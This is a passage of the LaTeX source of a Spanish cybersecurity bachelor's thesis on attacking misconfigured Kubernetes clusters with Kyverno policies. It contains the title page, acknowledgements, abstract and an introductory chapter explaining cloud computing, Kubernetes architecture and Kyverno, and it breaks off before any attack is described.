% Clase del documento
\documentclass[12pt,twoside,titlepage]{report}





%%%%%%%%%%%%%%%%%%%%%%% Paquetes %%%%%%%%%%%%%%%%%%%%%%%

\usepackage[a4paper,bindingoffset=3mm,bottom=35mm]{geometry}


% Usad \usepackage[dvips]{graphicx} o \usepackage[pdftex]{graphicx} (no ambos)
%\usepackage[dvips]{graphicx} %%% para LaTeX. Las figuras deben estar en formato eps

\usepackage[colorlinks=true,pdftex]{hyperref}   %%% Opcional. Para incluir marcadores y enlaces en el pdf
\usepackage[pdftex]{graphicx}  %%% para pdflatex. Las figuras pueden estar en pdf, jpg, svg y otros formatos


\usepackage[spanish]{babel}

%\usepackage[latin1]{inputenc} % Usad en WinEdt/MikTex
\usepackage[utf8]{inputenc} % Usad en overleaf

%\usepackage[T1]{fontenc}


% Algunos paquetes útiles

\usepackage{amsmath,amssymb}
\usepackage{hyperref}
\usepackage{color}
\usepackage{afterpage}
\usepackage{paralist}
\usepackage{array}
\usepackage{enumerate}
\usepackage{paralist}
\usepackage{enumitem}
\usepackage{float}
\usepackage{setspace}
\usepackage{listings}
\usepackage{algorithm}
\usepackage{algorithmic}
\usepackage{fancyhdr}
\usepackage{rotating}
\usepackage{multirow}
\usepackage{booktabs}
\usepackage{caption}



% Otros paquetes

\usepackage{quotchap}
\usepackage{lipsum}
\usepackage{minted}
\usepackage{xcolor}
\usepackage{tabularx}
\newcolumntype{Y}{>{\raggedright\arraybackslash}X} % Columna X con alineación a la izquierda

\definecolor{codegray}{rgb}{0.95,0.95,0.95}

\lstdefinelanguage{yaml}{
  keywords={true,false,null,y,n},
  keywordstyle=\color{blue}\bfseries,
  basicstyle=\ttfamily\footnotesize,
  comment=[l]{\#},
  morecomment=[s]{/*}{*/},
  commentstyle=\color{gray}\ttfamily,
  stringstyle=\color{red},
  moredelim=[l][\color{orange}]{\&},
  moredelim=[s][\color{orange}]{<}{>},
  morestring=[b]',
  morestring=[b]",
  sensitive=true,
  tabsize=2,
  showspaces=false,
  showstringspaces=false,
  backgroundcolor=\color{codegray},
  frame=single
}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%






%%%%%%%%%%%%%%%%%%%%%%% Definiciones básicas %%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\nombreautor}{Jesús Ramírez Gálvez}
\newcommand{\nombretutor}{Alfonso de Jesús Pérez Martínez}
\newcommand{\titulotrabajo}{EXPLOTACIÓN OFENSIVA DE ENTORNOS KUBERNETES MAL CONFIGURADOS UTILIZANDO POLÍTICAS DE KYVERNO}
\newcommand{\escuela}{Escuela Técnica Superior\\de Ingeniería Informática}
\newcommand{\escuelalargo}{Escuela Técnica Superior de Ingeniería Informática}
\newcommand{\universidad}{Universidad Rey Juan Carlos}
\newcommand{\fecha}{Fecha}
\newcommand{\grado}{Grado en Ingeniería de la Ciberseguridad}
\newcommand{\curso}{Curso 2024-2025}
\newcommand{\logoUniversidad}{logoURJC.pdf} % logoURJC.eps

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%






%%%%%%%%%%%%%%%%%%%%%%%%% Otras definiciones %%%%%%%%%%%%%%%%%%%%%%%%%%

% Definiciones de colores (para hidelinks)
\definecolor{BlueLink}{rgb}{0.165,0.322,0.745}
\definecolor{PinkLink}{rgb}{0.8,0.22,0.5}
\definecolor{gray}{rgb}{0.6,0.6,0.6}


% Enlaces
\hypersetup{hidelinks,pageanchor=true,colorlinks,citecolor=PinkLink,urlcolor=black,linkcolor=BlueLink}


\newcommand\blankpage{%
    \newpage
    \null
    \thispagestyle{empty}%
    %\addtocounter{page}{-1}%
    \newpage}


% Texto referencias
\addto{\captionsspanish}{\renewcommand{\bibname}{Bibliografía}}

% Texto Índice de tablas
\addto\captionsspanish{
\def\tablename{Tabla}
\def\listtablename{\'{I}ndice de tablas}
}


\floatname{algorithm}{Algoritmo}

\newfloat{algorithm}{t}{lop}


%\newenvironment{pseudocodigo}[1][htb]
%  {\renewcommand{\algorithmcfname}{Pseudocódig}% Update algorithm name
%   \begin{algorithm}[#1]%
%  }{\end{algorithm}}
  
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%





%%%%%%%%%%%%%%%%%%%%%%% Estilo de código (en Python) %%%%%%%%%%%%%%%%%%%%%%%

\definecolor{bg}{rgb}{0.95,0.95,0.95}
\definecolor{mydeepteal}{rgb}{0.16,0.22,0.23}
\definecolor{myteal}{rgb}{0.31,0.44,0.46}
\definecolor{mymediumteal}{rgb}{0.41,0.58,0.60}

\DeclareFixedFont{\ttb}{T1}{txtt}{bx}{n}{12} % for bold
\DeclareFixedFont{\ttm}{T1}{txtt}{m}{n}{12}  % for normal


%\newcommand*{\FormatDigit}[1]{\textcolor{mydeepteal}{#1}}
\newcommand*{\FormatDigit}[1]{\textcolor{black}{#1}}

% Python style for highlighting
\newcommand\mypythonstyle{\lstset{
language=Python,
basicstyle=\ttfamily\small,
%basicstyle=\linespread{1.0}\footnotesize\ttm,
otherkeywords={self},             % Add keywords here
keywordstyle=\bfseries\ttfamily\color{myteal},
%keywordstyle=\ttb\color{myteal},
commentstyle=\itshape\color{myteal},
stringstyle=\color{mydeepteal},
emph={MyClass,__init__},          % Custom highlighting
emphstyle=\ttb\color{mydeepteal},    % Custom highlighting style
% Any extra options here
showstringspaces=false,            %
backgroundcolor=\color{bg},
rulecolor = \color{bg},
%identifierstyle=\color{deepgreen},
breaklines=true,
numbers=left,
numbersep=5pt,
numberstyle=\tiny,
tabsize=4,
xleftmargin=1em,
frame = single,
framesep = 3pt,
framextopmargin=0pt,
framexbottommargin=0pt,
framexleftmargin=0pt,
framexrightmargin=0pt,
fontadjust=true,
basewidth=0.55em, % compactness of code
upquote=true,
}}

% Python environment
\lstnewenvironment{mypython}[1][]
{
\mypythonstyle
\lstset{#1}
}
{}

\newcommand\mypythonstylenormalinline{\lstset{
language=Python,
basicstyle=\ttfamily\normalsize,
%basicstyle=\linespread{1.0}\footnotesize\ttm,
otherkeywords={self},            % Add keywords here
keywordstyle=\bfseries\ttfamily\color{myteal},
%keywordstyle=\ttb\color{myteal},
commentstyle=\itshape\color{mymediumteal},
stringstyle=\color{mydeepteal},
emph={MyClass,__init__},          % Custom highlighting
emphstyle=\ttb\color{mydeepteal},    % Custom highlighting style
% Any extra options here
showstringspaces=false,            %
backgroundcolor=\color{bg},
rulecolor = \color{bg},
%identifierstyle=\color{deepgreen},
breaklines=false,
numbers=left,
numbersep=5pt,
numberstyle=\tiny,
tabsize=4,
xleftmargin=0em,
frame = single,
framesep = 3pt,
framextopmargin=0pt,
framexbottommargin=0pt,
framexleftmargin=0pt,
framexrightmargin=0pt,
fontadjust=true,
%basewidth=0.55em, % compactness of code
upquote=true,
}}

\newcommand\mypythoninline[1]{{\mypythonstylenormalinline\lstinline!#1!}}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%




%%%%%%%%%%%%%%%%%%%%%%%%%%%% Comandos definidos por el autor 

\newcommand{\transpuesta}{\mbox{\tiny $\mathsf{T}$}}








%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%                           Inicio del documento                       
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\begin{document}

\pagestyle{plain}




%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Portada %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%\pagenumbering{gobble}
%\pagenumbering{arabic}

% Universidad, Facultad
\begin{titlepage}
\selectlanguage{spanish}


% logo
\begin{center}
    \includegraphics[scale=0.7]{\logoUniversidad}
\end{center}

\bigskip

\begin{center}
\begin{LARGE}
\escuela \\
\end{LARGE}
\end{center}

\bigskip
\bigskip

% Grado
\begin{center}
\begin{large}
\textbf{\grado}\\
\end{large}
\end{center}

% Curso
\begin{center}
\begin{large}
\textbf{\curso}\\
\end{large}
\end{center}

\bigskip

\textbf{\begin{center}
\begin{large}
\textbf{Trabajo Fin de Grado}
\end{large}
\end{center}}

\bigskip
\bigskip
\bigskip

% Nombre del TFG
\begin{center}
\textbf{\begin{large}
\MakeUppercase{\titulotrabajo}\\
\end{large}}
\end{center}

% Nombre del autor
\vspace{\fill}
\begin{center}
\textbf{Autor: \nombreautor}\\ \smallskip
% Tutor
\textbf{Tutor: \nombretutor}\\
% Añadir segundo tutor si hubiera


\bigskip

% Fecha
%\textbf{\fecha}\\
\end{center}
\end{titlepage}


%%%%%%%%%%%%%%%%%%%%%%%% Opcional %%%%%%%%%%%%%%%%%%%%%%
%\blankpage

%\thispagestyle{empty}
%\begin{center}

% Nombre del trabajo
%\textbf{\begin{large}
%\MakeUppercase{\titulotrabajo}\\*
%\end{large}}
%\vspace*{0.2cm}
%\vspace{5cm}

% Nombre del autor y del tutor
%\large Autor: \nombreautor \\* \medskip
%\large Tutor: \nombretutor \\*

%\vfill

% Escuela, universidad y fecha
%\escuelalargo \\ \smallskip
%\universidad \\
%\vspace{1cm}
%\fecha \\

%\clearpage

%\end{center}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\hypersetup{pageanchor=true}

\normalsize
\afterpage{\blankpage} % Se deben añadir página en blanco para que lo capítulos de la memoria o estas secciones introductorias empiecen en páginas impares

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%





% Estilo de párrafo de los capítulos
\setlength{\parskip}{0.75em}
\renewcommand{\baselinestretch}{1.25}
% Interlineado simple
\spacing{1}

\pagenumbering{Roman}
\setcounter{page}{2}


%%%%%%%%%%%%%%%%%%%%%%%%% Agradecimientos o dedicatoria %%%%%%%%%%%%%%%%%%%%%%%%%%%

\chapter*{Agradecimientos}

El primer agradecimiento tiene que ir para mis padres, los cuáles me han permitido poder estudiar fuera de mi ciudad e irme a la capital a conseguir mis sueños. Han sido mi modelo de persona desde siempre, consiguiendo todo a base de esfuerzo y mucho, pero mucho, trabajo. Sin ellos no sería quién soy.

El segundo agradecimiento tiene que ir para mis amigos Carlos, más conocido como "Bara", y Sicilia, mis dos compañeros más importantes de toda la carrera. Me han sufrido mucho, que no es poco, y sin ellos habría sido todo bastante diferente.

También quiero agradecer al Colegio Mayor donde he estado alojado 3 de los 4 años que he estado en Madrid, el Colegio Mayor Mendel. He conocido a personas increíbles en este lugar, y me ha enseñado bastantes cosas de la vida que yo creo que no habría podido aprender en otro lugar.

Por último, agradecer a la empresa en la que he estado trabajando durante los dos últimos años de la carrera y sigo a día de entregar este TFG, Tarlogic, porque me han permitido evolucionar profesionalmente a la vez que avanzaba en mis estudios.

\afterpage{\blankpage}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%






%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Resumen %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\chapter*{Resumen}

Actualmente, el uso de la computación en la nube está a la orden del día, la importancia que ha tomado aplicar las medidas de seguridad oportunas no ha pasado desapercibida, siendo uno de los principales problemas que presenta esta tecnología. Kubernetes es una de las principales herramientas que facilitan la creación de estos sistemas en la nube, siendo además una tecnología a día de hoy todavía novedosa, dificultando el correcto conocimiento de su funcionamiento por todas las partes implicadas.

En este Trabajo Fin de Grado se configurará un entorno de Kubernetes intencionadamente vulnerable, aplicando configuraciones incorrectas con el objetivo de simular escenarios de compromiso en el host donde se ejecutan las aplicaciones. El trabajo se centrará en la explotación ofensiva de estas debilidades, utilizando la herramienta Kyverno, un motor de políticas para Kubernetes, para llevar a cabo ataques que permitan obtener persistencia en el sistema. Para ello, se modificarán políticas existentes o se crearán nuevas, aplicando un enfoque propio de seguridad ofensiva. Toda la planificación del ataque estará basada en un análisis de riesgos realizado con la metodología STRIDE, orientado a identificar y explotar vectores relevantes dentro del entorno desplegado.

\mbox{} \bigskip

\noindent \textbf{Palabras clave}:
\begin{compactitem}
    \item Ciberseguridad.
    \item Computación en la nube.
    \item Kubernetes.
    \item Kyverno.
    \item STRIDE.
\end{compactitem}

\afterpage{\blankpage}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%





%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Índices %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% Estilo de párrafo de los Índices
\setlength{\parskip}{1pt}
\renewcommand{\baselinestretch}{1}
\renewcommand{\contentsname}{Índice de contenidos}


% Índice de contenidos
\tableofcontents
\afterpage{\blankpage}

% Índice de tablas (OPCIONAL)
\listoftables
\afterpage{\blankpage}
\addcontentsline{toc}{chapter}{\noindent \listtablename}

% Índice de figuras (OPCIONAL)
\listoffigures
\afterpage{\blankpage}
\addcontentsline{toc}{chapter}{\listfigurename}

% Índice de códigos/algoritmos (OPCIONAL).   El término "Códigos" se puede cambiar por "Métodos", "Funciones", "Algoritmos", etc.
\renewcommand\lstlistlistingname{Códigos}
\renewcommand\lstlistingname{Código}
\renewcommand\lstlistlistingname{Índice de códigos}

\lstlistoflistings
\afterpage{\blankpage}
\addcontentsline{toc}{chapter}{\lstlistlistingname}


% En este documento (de momento) no se ha considerado incluir un índice de algoritmos/pseudocódigos, como el que aparece en \ref{AdditionalLouvain}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%





%%%%%%%%%%%%%%%%%%%%%%% Cabeceras y pies de página (Opcional) %%%%%%%%%%%%%%%%%%%%%%%

%\setlength{\headheight}{15.2pt}
\pagestyle{fancy}


\renewcommand{\chaptermark}[1]{\markboth{Capítulo \thechapter.\ #1}{}}

\pagestyle{fancy}
\fancyhf{}
\fancyhead[LO]{\leftmark}
\fancyhead[RO]{}
\fancyhead[RE]{\nouppercase\rightmark}
\fancyhead[LE]{}
\fancyfoot[C]{\thepage}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%






%%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Capítulos de la memoria %%%%%%%%%%%%%%%%%%%%%%%%%%%%%



% Capítulo 1
\chapter{Introducción}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% Estilo resto de páginas
\pagestyle{fancy}


% Estilo de párrafo de los capítulos
\setlength{\parskip}{0.75em}
\renewcommand{\baselinestretch}{1.25}
% Interlineado simple
\spacing{1}
% Numeración contenido
\pagenumbering{arabic}
\setcounter{page}{1}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
La computación en la nube se ha convertido en un componente esencial de la tecnología moderna, transformando la forma en la que individuos y organizaciones consumen recursos informáticos. Este componente ofrece el acceso bajo demanda a servicios y recursos de procesamiento a través de la red, típicamente bajo un modelo de pago por uso. La computación en la nube desempeña un papel fundamental tanto en la vida cotidiana –sustentando servicios ampliamente utilizados como el correo electrónico, el \textit{streaming} de video o los videojuegos en línea– como en el entorno empresarial, donde se ha vuelto indispensable desde pequeñas empresas hasta grandes multinacionales. 

Según la definición de referencia del NIST (National Institute of Standards and Technology), la nube presenta cinco características esenciales: autoservicio bajo demanda, acceso amplio a la red, agrupación multiusuario de recursos, rápida elasticidad y servicio medido. Estas propiedades habilitan un modelo altamente eficiente en costes y ágil, permitiendo a los usuarios aprovisionar recursos en minutos, escalar aplicaciones globalmente y aprovechar tecnologías avanzadas sin necesidad de adquirir y mantener infraestructura propia.
\newpage

\section{Computación en la nube}

La computación en la nube, o \textit{cloud computing}, ha evolucionado desde conceptos teóricos en la década de 1960 hasta convertirse en una tecnología esencial para las tecnologías de la información en el siglo XXI. 
\paragraph{Historia de la computación en la nube\cite{history_cloud_computing}\\}
En 1960, John McCarthy, pionero en inteligencia artificial, sugirió que "algún día la computación podrá ser organizada como un servicio público", anticipando la idea de ofrecer recursos computacionales de manera similar a los servicios públicos tradicionales. 

Paralelamente, J.C.R. Licklider, conocido por su trabajo en ARPANET, propuso la "red informática intergaláctica", imaginando un mundo interconectado donde los datos y programas estuvieran accesibles desde cualquier lugar. 

No obstante, a pesar de tener menciones e ideas de un posible funcionamiento de la computación en la nube, no fue hasta 1999 cuando la empresa Salesforce.com introdujo aplicaciones empresariales a través de una simple página web, marcando un hito en la entrega de software como servicio (SaaS) y el primer uso de la nube en sistemas enfocados a usuarios finales.

El avance significativo llegó en 2006, cuando Amazon lanzó Elastic Compute Cloud (EC2), permitiendo a individuos y empresas alquilar capacidad computacional según sus necesidades. Este fue el primer producto que llevaba la creación en la nube a cualquier persona.

Este desarrollo sentó las bases para que otros gigantes tecnológicos, como Google y Microsoft, ingresaran al mercado de la nube, ofreciendo sus propias soluciones y consolidando la computación en la nube como un componente fundamental de la infraestructura tecnológica moderna.

\paragraph{Modelos de Servicio (IaaS, PaaS, SaaS) \\ \\}
En \textit{cloud computing} existen principalmente tres modelos de servicio, clasificados según el nivel de abstracción ofrecido al usuario y el grado de control que este mantiene sobre la infraestructura:
\begin{itemize}
\item Infraestructura como Servicio (\textit{IaaS}): Proporciona acceso bajo demanda a recursos informáticos fundamentales –servidores (físicos o virtuales), almacenamiento y redes– a través de Internet, con un esquema de pago por uso. El proveedor de \textit{IaaS} entrega la infraestructura básica y se encarga del mantenimiento físico, mientras que el cliente puede desplegar y gestionar en ella sistemas operativos, bases de datos y aplicaciones a su conveniencia. Este modelo ofrece gran flexibilidad, permitiendo escalar recursos hacia arriba o abajo según las necesidades y eliminando la necesidad de inversiones iniciales en hardware propio. Por ejemplo, servicios como Amazon Web Services (EC2), Microsoft Azure o Google Cloud funcionan bajo este modelo.

\item Plataforma como Servicio (\textit{PaaS}): Proporciona a los desarrolladores una plataforma completa  lista para ejecutar y gestionar aplicaciones sin tener que ocuparse de la administración subyacente. En un entorno PaaS, el proveedor aloja y mantiene tanto el hardware como el stack de software, de modo que el usuario solo debe enfocarse en desarrollar e implementar su código. Esto acelera enormemente el ciclo de desarrollo al abstraer la complejidad de aprovisionar servidores o configurar componentes básicos. Ejemplos típicos de \textit{PaaS} incluyen Google App Engine o Microsoft Azure App Service, los cuales permiten desplegar aplicaciones con unos pocos clics o comandos, delegando al proveedor tareas como escalado automático, balanceo de carga y actualización de parches del sistema.

\item Software como Servicio (\textit{SaaS}): Es el modelo más completo, en el que se ofrece una aplicación de software totalmente funcional como un servicio, accesible para el usuario final a través de un navegador web u otra interfaz. Toda la infraestructura y plataforma subyacente es gestionada por el proveedor; el cliente simplemente utiliza la aplicación, usualmente mediante el pago de una suscripción. Servicios cotidianos como el correo electrónico basado en web (por ejemplo, Gmail) o plataformas de gestión empresarial (Salesforce) son ejemplos de \textit{SaaS}. Este modelo aporta beneficios inmediatos como despliegue instantáneo, actualizaciones automáticas y accesibilidad universal, a la vez que reduce los costes y complejidad de TI para las organizaciones finales.
\end{itemize}
Estos modelos de servicio no son excluyentes: muchas organizaciones utilizan combinaciones de \textit{IaaS}, \textit{PaaS} y \textit{SaaS} según distintos casos de uso. Por ejemplo, una empresa puede utilizar \textit{IaaS} para su infraestructura básica en la nube, desarrollar aplicaciones internas sobre un entorno \textit{PaaS} y consumir aplicaciones de terceros vía \textit{SaaS}. Cada modelo acarrea diferentes niveles de responsabilidad para el cliente y el proveedor, aspecto relacionado con la seguridad que debe tenerse en cuenta.

\paragraph{Modelos de Despliegue (Nube pública, privada, híbrida) \\ \\}

Además de los modelos de servicio, la computación en la nube se clasifica según el modelo de despliegue o propiedad de la infraestructura en:
\begin{itemize}
    \item Nube pública: Infraestructura cloud ofrecida por un tercero para uso abierto al público en general. En la nube pública, un proveedor (por ejemplo AWS, Microsoft o Google) es propietario de los centros de datos y recursos hardware, que son compartidos entre múltiples clientes de forma multi-inquilino (\textit{multi-tenant}). Los datos y procesos de diversos usuarios pueden coexistir en los mismos servidores y redes de la nube, aislados lógicamente pero físicamente ubicados en la plataforma del proveedor. El acceso a los servicios se realiza de manera remota a través de la red, y el cliente no tiene conocimiento ni control sobre la ubicación exacta o la gestión física de la infraestructura. Este modelo ofrece alta escalabilidad y costes operativos reducidos (pago por consumo), a cambio de menos control directo sobre los recursos.
    \item Nube privada: Infraestructura cloud utilizada de forma exclusiva por una sola organización. En una nube privada, todos los recursos –servidores, almacenamiento, redes– son de uso exclusivo del cliente, quien mantiene un control total sobre qué aplicaciones se ejecutan, dónde se almacenan los datos y quién tiene acceso a la infraestructura. Este modelo es preferido por compañías que requieren altos niveles de seguridad, personalización o cumplimiento normativo, ya que permite mantener la privacidad de la información y adaptar los servicios a las políticas corporativas. La nube privada ofrece mayor capacidad de configuración y garantías de aislamiento, aunque suele implicar costes mayores y menor elasticidad que la nube pública (al depender de la inversión en una infraestructura dedicada).
    \item Nube híbrida: Combina elementos de nube pública y nube privada, buscando aprovechar lo mejor de ambos mundos. En un entorno híbrido, una parte de los recursos es de uso exclusivo de la organización (privada) y otra parte reside en una nube pública, con integración entre ambas mediante tecnologías que permiten la portabilidad de datos y aplicaciones. La nube híbrida permite escalar externamente los recursos bajo demanda manteniendo al mismo tiempo un núcleo privado de mayor control. No obstante, también añade complejidad, ya que requiere gestionar la interoperatividad, la seguridad y la distribución de cargas entre entornos heterogéneos. Este modelo se ha vuelto atractivo a medida que pocas organizaciones operan 100\% en la nube o 100\% on-premise, siendo común una mezcla de entornos; una infraestructura híbrida bien administrada puede ofrecer flexibilidad sin comprometer del todo la soberanía sobre los datos.
\end{itemize}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{tipos_nube.png}
  \caption{Diferentes tipos de nube.}
  \label{fig:tiposnube}
\end{figure}

En cualquier modelo de despliegue adoptado, es fundamental comprender el modelo de responsabilidad compartida en la nube. Los proveedores de nube pública, por ejemplo, operan y aseguran la infraestructura física y la virtualización subyacente, pero el cliente sigue siendo responsable de proteger sus sistemas operativos, aplicaciones y datos desplegados en esa infraestructura. En otras palabras, el proveedor garantiza la seguridad de la nube (centros de datos, hardware, redes), mientras que el usuario debe ocuparse de la seguridad en la nube (configuraciones seguras, gestión de accesos, cifrado de datos, etc.). Este principio, aplicado por compañías como AWS, Microsoft Azure y otros, recalca que migrar a la nube no exime a las organizaciones de implementar buenas prácticas de ciberseguridad; simplemente cambia la naturaleza de algunas tareas y controles.

\paragraph{Ecosistema actual \\ \\}
La computación en la nube ha experimentado una evolución significativa, consolidándose como una pieza clave en la infraestructura tecnológica moderna. Entre las tecnologías más utilizadas en la actualidad en este ámbito destacan:

\begin{itemize}
    \item \textbf{Inteligencia Artificial (\textit{IA}) y Aprendizaje Automático (\textit{ML}):} La integración de \textit{IA} y \textit{ML} en la nube permite a las empresas analizar grandes volúmenes de datos y obtener información muy valiosa en tiempo real. Se espera que durante este año 2025, la \textit{IA} generativa y los modelos preentrenados sean componentes esenciales en las soluciones en la nube, facilitando la automatización y eficiencia en diversos procesos empresariales. 

    \item \textbf{Arquitecturas \textit{Serverless}:} Estas arquitecturas permiten a los desarrolladores centrarse en el código sin preocuparse por la gestión de la infraestructura subyacente. Las arquitecturas \textit{serverless} facilitan a las empresas la utilización de los recursos de la nube de forma flexible y rentable, con un gasto inicial de inversión mínimo. 

    \item \textbf{Estrategias \textit{multicloud} y nube híbrida:} Las organizaciones están adoptando cada vez más combinaciones de diferentes recursos y proveedores en la nube con infraestructura local para obtener mayor flexibilidad y resiliencia. Esta tendencia permite a las empresas evitar la dependencia de un solo proveedor y optimizar sus operaciones según sus necesidades específicas.
\end{itemize}

En este ecosistema, Kubernetes se ha destacado como una herramienta fundamental para la orquestación de contenedores. Desarrollado por ingenieros de Google en 2014, Kubernetes es una plataforma de código abierto que automatiza el despliegue, escalado y gestión de aplicaciones en contenedores. Su capacidad para gestionar y coordinar contenedores proporciona una infraestructura eficiente y escalable para aplicaciones modernas. 

La popularidad de Kubernetes se debe a su capacidad para facilitar la automatización y la configuración, permitiendo a las organizaciones manejar código heredado y aplicaciones modernas de manera eficiente. Se estima que durante 2021, el 75\% de las grandes empresas usaron Kubernetes \cite{uso_kubernetes_grandes_empresas}, lo que evidencia la gran popularidad de este sistema.

\subsection{Kubernetes}
En los últimos años, Kubernetes se ha consolidado como el sistema de orquestación de contenedores estándar en la industria de la computación en la nube. Kubernetes (a menudo abreviado K8s) es una plataforma de código abierto diseñada para automatizar el despliegue, escalado y gestión de aplicaciones en contenedores. Desde su introducción por Google en 2014 y posterior entrega a la Cloud Native Computing Foundation (CNCF), Kubernetes se ha convertido en un pilar fundamental para ejecutar cargas de trabajo en entornos de contenedores. La plataforma simplifica tareas operativas complejas al encargarse de aspectos como el \textit{deployment} (despliegue) de contenedores en un clúster de máquinas, la escalabilidad horizontal (añadir o quitar instancias de aplicación según demanda), la asignación eficiente de recursos hardware, la resiliencia ante fallos (reubicando contenedores de nodos caídos) y otras funciones que antes debían realizarse manualmente. En esencia, Kubernetes proporciona una capa de abstracción sobre la infraestructura que permite a los equipos de desarrollo y operaciones (DevOps) describir el “estado deseado” de sus aplicaciones, y el sistema se encarga de alcanzar y mantener ese estado de forma autónoma. 

La arquitectura de Kubernetes sigue un modelo maestro-agente. Un clúster típico de Kubernetes consta de uno o varios nodos de control (control plane o \textit{master nodes}) y múltiples nodos de trabajo (\textit{worker nodes}). El plano de control está compuesto por servicios centrales como el \textit{API Server} (que expone la API de Kubernetes), el \textit{scheduler} (que asigna contenedores a nodos según recursos y políticas) y los \textit{controller managers} (que supervisan el estado del clúster y realizan acciones correctivas). Estos componentes orquestan globalmente el sistema. Por otro lado, cada nodo de trabajo ejecuta un agente llamado \textit{kubelet} y otros componentes (como \textit{kube-proxy}) que se encargan de gestionar los contenedores en ese host y de comunicarse con el plano de control. Esta arquitectura maestro/nodo coordinada garantiza alta disponibilidad y escalabilidad: Kubernetes puede ejecutar aplicaciones en contenedores distribuidas en decenas o cientos de nodos y tolerar fallos aislados reubicando las cargas automáticamente. Asimismo, permite realizar actualizaciones o mantenimiento de nodos sin interrumpir el servicio, gracias a mecanismos de evacuación y redistribución de contenedores (lo que habilita despliegues continuos sin tiempo de inactividad perceptible). 

La adopción de Kubernetes ha crecido de forma vertiginosa en diversas industrias, al punto que muchas organizaciones lo consideran la piedra angular de sus estrategias de infraestructura \textit{cloud-native}. Empresas de todos los tamaños, desde startups hasta grandes corporaciones, utilizan Kubernetes para unificar la gestión de sus aplicaciones en contenedores, independientemente de si corren en nubes públicas, privadas o entornos híbridos. Esta popularidad se debe a los significativos beneficios que aporta: agilidad para desplegar nuevas versiones de aplicaciones con rapidez, eficiencia en el uso de recursos (agrupando múltiples servicios ligeros en las mismas máquinas físicas), portabilidad entre diferentes proveedores cloud (al ser un estándar abierto soportado en AWS, Azure, Google Cloud, etc.), y robustez operativa (autorreparación de aplicaciones, equilibrio de carga integrado, escalado automático basado en métricas). Kubernetes ha facilitado también la adopción de arquitecturas de microservicios, donde aplicaciones monolíticas se dividen en componentes pequeños y desplegables independientemente; sin un orquestador, manejar cientos de microservicios sería inviable manualmente, pero con Kubernetes es factible mantener control centralizado sobre todos ellos. 

Por supuesto, Kubernetes conlleva nuevos retos, particularmente en materia de seguridad y gestión. La flexibilidad de Kubernetes implica que, si bien ofrece mecanismos nativos de seguridad (como espacios de nombres, políticas de red, control de acceso RBAC, etc.), las organizaciones a menudo necesitan políticas adicionales para garantizar que el uso de Kubernetes se alinee con las mejores prácticas y requisitos corporativos.

\subsection{Kyverno}
Dentro del ecosistema de Kubernetes, Kyverno se ha posicionado como una herramienta fundamental para la gestión de políticas y la seguridad de clústeres. Kyverno es un motor de políticas (\textit{policy engine}) diseñado específicamente para Kubernetes, que permite definir, aplicar y monitorizar políticas declarativas mediante configuraciones en formato YAML, integrándose de forma nativa con la API de Kubernetes. A diferencia de otras soluciones genéricas de políticas, Kyverno apuesta por la sencillez: las políticas se escriben como recursos personalizados de Kubernetes (Custom Resource Definitions, CRDs), por lo que los usuarios no necesitan aprender un lenguaje nuevo, sino que pueden utilizar la sintaxis familiar de Kubernetes.

\paragraph{¿Qué puede hacer Kyverno? \\ \\}

En términos funcionales, Kyverno actúa como un controlador de admisión (\textit{admission controller}) en Kubernetes, interceptando las peticiones al \textit{API Server} que crean o modifican objetos en el clúster, y evaluándolas frente a un conjunto de políticas definidas. Según la configuración de cada política, Kyverno puede validar que los recursos cumplan ciertos requisitos, mutar (modificar) recursos sobre la marcha para ajustarlos a un estado deseado, o incluso generar recursos adicionales automáticamente. Además, Kyverno provee capacidades para reforzar la seguridad de la cadena de suministro de software: puede verificar firmas criptográficas de imágenes de contenedor antes de su despliegue, asegurando que solo se ejecuten imágenes confiables y no manipuladas. También soporta reglas para escanear la configuración en busca de vulnerabilidades o malas prácticas (por ejemplo, detectar si un \textit{Pod} tiene privilegios excesivos, o si se intenta ejecutar un contenedor como \textit{root}).

